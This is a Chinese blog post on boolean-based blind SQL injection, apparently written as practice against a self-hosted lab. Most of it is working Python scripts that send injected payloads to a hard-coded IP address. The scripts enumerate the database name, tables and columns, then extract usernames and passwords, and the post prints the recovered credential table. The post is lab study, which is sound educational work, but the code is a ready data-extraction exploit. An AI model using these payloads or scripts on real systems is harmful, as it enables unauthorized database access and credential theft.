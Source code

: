 ```yaml
---
title: sql布尔盲注
date: 2022-07-07 15:32:23
permalink: /pages/bb98e5/
categories:
  - 网络安全
  - web安全
  - 自建靶场学习
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

#  sql布尔盲注

## 用的是自己以前的老脚本，效率不高但能显示出结果

### 基本思路

> 先找到查出数据库长度，然后通过数据库长度爆破出数据名
>
> python代码如下：

```python
import requests
url="http://120.27.61.239:8007/source/index2.php?id="
a="You are in..........."
def DBlength(url,str):
    for i in range(1,40):
        attack_url=url+"1'and length(database())={0}--+" .format(i)
        ret=requests.get(attack_url)
        if str in ret.text:
            print("数据库长度为：{0}" .format(i))
            return i
        else:
            continue
def DBname(url,str,num):
    name=()
    for j in range(1,num+1):
            for i in range(65,122):
                attack_url=url+"1'and ascii(substr(database(),{1},1))={0}--+".format(i,j)
                ret=requests.get(attack_url)
                if str in ret.text:
                    name+=(chr(i),)
    return name
if __name__ == '__main__':
	num=DBlength(url,a)
	dbname=DBname(url,a,num)
	databasename=''.join(dbname)
	print("数据库名"+str(databasename)+"数据库长度"+str(num))
```

> 效果图如下：

![image-20220705154625344](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705154625344.png)

> 获得数据库名后通过此数据库名获取此数据库名的表名，表的长度，有多少个表等

```python
具体核心代码如下：
def tables(url,str):
    for i in range(1,10):
        attack_url=url+"1'and((select count(table_name) from information_schema.tables where table_schema=database())={0})--+".format(i)
        ret=requests.get(attack_url)
        if str in ret.text:
            print("有{0}个表".format(i))
            return i
def tbinformation(url,str,num):
    tb_array=[]
    tbname=[]#先算它每张表的长度
    for i in range(0,num):
        for j in range(1,64):
            attack_url=url+"1'and (select length((select table_name from information_schema.tables where table_schema=database() limit {0},1)))={1}--+".format(i,j)
            ret=requests.get(attack_url)
            if str in ret.text:
                print("第{0}个表长度为{1}".format(i+1,j))
                tb_array.append(j)
                break
    for i in range(0,num):#然后再爆破出它的表名
        a=[]
        for j in range(0,tb_array[i]):
            for l in range(97,122):
                attack_url=url+"1'and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {0},1),{1})))={2}--+".format(i,j+1,l)
                ret=requests.get(attack_url)
                if str in ret.text:
                    a.append((chr(l)))
                    break
        name=''.join(a)
        tbname.append(name)
    return tbname
```

> 实现效果图如下：

![image-20220705160936085](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705160936085.png)

> 获得数据表名，开始通过获取的表名拿到对应每张表的列名
>
> 因为此处表非常多，所以这里就选择最重要的userpwd和user表来爆破
>
> 核心代码如下：

```python
def column(url,str,tbname):
    flag=0
    colum=[]
    column_name=[]
    for i in range(1,20):
        attack_url=url+"1'and(select count(column_name)from information_schema.columns where table_name='{0}')={1}--+".format(tbname,i)
        ret=requests.get(attack_url)
        if str in ret.text:
            flag=i
            break
    for i in range(0,flag):
        for j in range(1,20):
            attack_url=url+"1' and (select length(substr((select column_name from information_schema.columns where table_name='{2}' limit {0},1),1)))={1}--+".format(i,j,tbname)
            ret=requests.get(attack_url)
            if str in ret.text:
                colum.append(j)
                break      
    for i in range(0,flag):
        test=[]
        for l in range(0,colum[i]):
            for j in range(97,122):
                attack_url=url+"1' and (ascii(substr((select column_name from information_schema.columns where table_name='{3}' limit {0},1),{1})))={2}--+".format(i,l+1,j,tbname)
                ret=requests.get(attack_url)
                if str in ret.text:
                    test.append(chr(j))
                    # print(test)
                    break
        a="".join(test)
        # print(a)
        column_name.append(a)
    return column_name
```

> 先跑的是userpwd表，但是跑完后里面并没有任何信息

![image-20220705162600945](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705162600945.png)

> 手工查一下看是不是此表内是不是根本没有列

```mysql
mysql语句如下：
select count(column_name) from information_schema.columns where table_name='userpwd'
```

> 结果跟我猜想的一样，并无数据

![image-20220705163215920](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705163215920.png)

> 那么接下来就查询users表里的列名
>
> 核心代码跟上面一样只是换了一个表名
>
> 效果图如下：

![image-20220705163408117](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705163408117.png)

> 知道了表名那么久很简答了，只要把里面的数据爆破出来就好了，因为一般登录只需要username和password就行了，id只是一个排序的，所以优先爆破username和password
>
> 核心代码如下：

```python
def contents(name):
    sj=[]
    count=0
    for i in range(30):
        attck_url=url+"1'and (select count({0}) from users)={1}--+".format(name,i)
        ret=requests.get(attck_url)
        if a in ret.text:
            count=i
            print(count)
            break
    for i in range(0,count):
        test=[]
        flag=0
        for j in range(1,20):
            attck_url=url+"1' and (select length((select {2} from users limit {0},1)))={1}--+".format(i,j,name)
            ret=requests.get(attck_url)
            if a in ret.text:
                flag=j
                print('第{0}个数据长度为{1}'.format(i+1,j))
                break
        for j in range(flag):
            for k in range(33,127):
                attck_url=url+"1'and (select ascii(substr((select {3} from users limit {0},1),{1},1)))={2}--+".format(i,j+1,k,name)
                ret=requests.get(attck_url)
                if a in ret.text:
                    test.append(chr(k))
                    break
        b="".join(test)
        sj.append(b)
        print(sj)
```

> 效果图如下：

> 账号：

![image-20220705172515233](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705172515233.png)

> 密码:

![image-20220705172603464](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220705172603464.png)

> 总结一下，user表内所有内容如下：

| id   | username | password   |
| ---- | -------- | ---------- |
| 1    | hetian   | hetian1    |
| 2    | Hetian   | I-kill-you |
| 3    | Heetian  | p@ssword   |
| 4    | hetian   | hetian     |
| 5    | heetian  | stupidity  |
| 6    | superman | genious    |
| 7    | batman   | mob!le     |
| 8    | admin    | admin      |
| 9    | admin1   | admin1     |
| 10   | admin2   | admin2     |
| 11   | admin3   | admin3     |
| 12   | dhakkan  | dumbo      |
| 13   | admin4   | admin4     |

